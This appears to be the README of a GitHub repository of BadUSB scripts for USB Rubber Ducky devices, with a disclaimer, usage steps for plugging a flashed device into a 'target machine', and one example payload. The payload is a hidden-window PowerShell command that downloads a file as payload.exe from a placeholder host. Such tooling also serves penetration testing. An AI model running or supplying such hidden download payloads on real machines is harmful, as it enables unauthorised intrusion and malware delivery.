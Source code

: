 # BadUSB Scripts

![BadUSB Banner](https://bobhinio.pl/assets/BadUsbBanner.webp)

This repository contains BadUSB scripts for various use cases. Use them responsibly.

## Features
- Various pre-made scripts for USB Rubber Ducky
- Easy to customize
- Compatible with standard BadUSB devices

## Disclaimer
The files and scripts provided here are shared as-is, without any guarantees. The author cannot be held responsible for any issues or consequences arising from their use. Please use them responsibly and in compliance with applicable laws.

---

### How to Use
1. Flash the script to your BadUSB device.
2. Plug the device into a target machine.
3. Watch it execute the payload.

---

## Preview
Here's an example of a payload in action:
```powershell
powershell -WindowStyle Hidden -Command "Invoke-WebRequest -Uri http://example.com -OutFile payload.exe"
